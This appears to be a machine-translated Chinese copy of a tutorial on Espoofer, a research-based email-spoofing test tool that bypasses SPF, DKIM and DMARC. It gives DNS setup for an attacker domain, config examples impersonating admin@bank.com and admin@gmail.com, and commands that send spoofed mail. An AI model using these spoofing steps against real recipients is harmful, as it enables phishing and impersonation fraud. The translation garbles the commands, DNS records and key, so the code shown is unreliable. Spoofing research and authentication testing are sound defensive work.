 # Espoofer:一个电子邮件欺骗测试工具，旨在绕过 SPF/DKIM/DMARC

> 原文：<https://kalilinuxtutorials.com/espoofer/>

[![](img/beda10905d8fa07a4aae8ce985d81191.png)](https://blogger.googleusercontent.com/img/a/AVvXsEhZk6uQU9Rnp4XvHsF1A2x1276ElBO_LrqHOCGP38G5EY5q5u1gk1pD-cgry9FMmCywGP2BGW-hEhnt4vmYgtYiwkGyUo-DYRRcaDVuP8sydtI61dSVq5nrSE848x4vLz8nk9E_LEuayGGmBsY73Jd8V8MTDjcE6JAxeR0I9eBtmle7PjpoPyyugWbZ=s728)

***Espoofer*** 是一款开源测试工具，可以绕过电子邮件系统中的 SPF、DKIM 和 DMARC 认证。它有助于邮件服务器管理员和渗透测试人员检查目标电子邮件服务器和客户端是否容易受到电子邮件欺骗攻击或可能被滥用来发送欺骗电子邮件。

![](img/4f86737ff2b7efe471751d2eaab25824.png)

为什么要开发这个工具？

电子邮件欺骗对个人和组织都是一大威胁。为了解决这个问题，现代电子邮件服务和网站采用认证协议(SPF、DKIM 和 DMARC)来防止电子邮件伪造。

我们的最新研究表明，这些协议的实施存在许多安全问题，可以利用这些问题绕过 SPF/DKIM/DMARC 保护。图 1 展示了我们在 Gmail 中绕过 DKIM 和 DMARC 的一种欺骗攻击。有关更多技术细节，请参阅我们的黑帽美国 2020 演讲(带演示视频)或 USENIX 安全 2020 白皮书。

*   黑帽美国 2020 幻灯片(PDF):你不知道是谁发的那封邮件:对邮件发件人认证的 18 次攻击
*   USENIX 安全 2020 论文(PDF):合成杀手:电子邮件发件人身份验证案例研究
    *   杰出论文奖获得者

在本报告中，我们总结了我们发现的所有测试案例，并将其集成到该工具中，以帮助管理员和安全从业者快速识别和定位此类安全问题。如果你做科学研究，请使用下面的引文(点击我)。

**安装**

*   下载该工具

**git 克隆 https://github.com/chenjj/espoofer**

*   安装依赖项

**sudo pip3 安装要求. txt**

**用途**

espoofer 有三种工作模式:*服务器* ('s '，默认模式)*客户端*(' c ')*手动* ('m ')。在*服务器*模式下，espoofer 像邮件服务器一样工作，在接收服务时测试有效性。在*客户端*模式下，espoofer 作为一个电子邮件客户端来测试发送服务的有效性。*手动*模式用于调试目的。

![](img/12bf600b73c8647957c6338d88e71ec4.png)

**服务器模式**

要在服务器模式下运行 espoofer，您需要拥有:1)一个 IP 地址(`**1.2.3.4**`)，其输出端口 25 不会被 ISP 阻止，以及 2)一个域(`**attack.com**`)。

域配置

*   为`**attack.com**`设置 DKIM 公钥

**选择器。_ domain key . attacker . com txt " v = dkim 1；k=rsat=yp = migfma 0 gcsqgsib 3 dqebaquea 4 gndcbikbgqdnjwdrmp/gcbkgqfrzk+LJ 6 xowuqxkaa/Li 1 en 4t 4 sluwiil 6 haqmrsq 8 xfg76 MMX 4 CHN 2 vqvewfh 7 qtvshglywwwrajdq 4 ktlfr/2 ewalritndijofr 2 tpzdrgp 0 nty 6 saktkhqdwrk 3 u 0 SZ mg 7 u 8 L9 ipj 7**

为`**attack.com**`设置 SPF 记录

**attack.com TXT " v = sp f1 ip4:1 . 2 . 3 . 4+全部"**

在 config.py 中配置工具

**config ={
"攻击者 _ 站点":b"attack.com "，# attack.com
"合法 _ 站点 _ 地址":b"admin@bank.com "，# legitimate.com
"受害者 _ 地址":b"victim@victim.com "，# victim@victim.com
" case _ id ":b " server _ a1 ", # server _ a1
}**

您可以使用`**-l**`选项列出所有测试用例的 case_id:

**python3 espoofer.py -l**

您可以在 config.py 中更改 case_id，或者在命令行中使用`**-id**`选项来测试不同的案例:

**python 3 espoofer . py-id server _ a1**

**客户端模式**

要在客户端模式下运行 epsoofer，您需要在目标电子邮件服务上拥有一个帐户。这种攻击利用了某些电子邮件服务无法对从本地 mua 收到的电子邮件进行充分验证的缺陷。例如，`**attacker@gmail.com**`试图冒充`**admin@gmail.com**`。

1.  在 config.py 中配置工具

**config ={
"合法 _ 站点 _ 地址":b"admin@gmail.com "、
"受害者 _ 地址":b"victim@victim.com "、
"case_id": b"client_a1"、
" client _ mode ":{
" sending _ server ":(" SMTP . Gmail . com "，587)、# SMTP 发送服务 ip 和端口
" username ":b " attack @ Gmail . com "、#您的帐户用户名和密码
密码**

您可以使用`**-l**`选项列出所有测试用例的 case_id:

**python3 espoofer.py -l**

注意:`**sending_server**`应该是 SMTP 发送服务器地址，而不是接收服务器地址。

2.  运行该工具来发送欺骗性电子邮件

**python3 espoofer.py -m c**

您可以在 config.py 中更改 case_id 并再次运行它，或者您可以在命令行中使用`**-id**`选项:

**python 3 espoofer . py-m c-id client _ a1**

**手动模式**

以下是手动模式的一个示例:

**python 3 espoofer . py-m m-helo attack.com-m from m@attack.com-rcpt to victim@victim.com-data raw _ msg _ here-IP 127 . 0 . 0 . 1-port 25**

**截图**

1.  测试用例的简要概述。

![](img/50bf57a236f3065c44bf9610cfa180a3.png)[**Download**](https://github.com/chenjj/espoofer)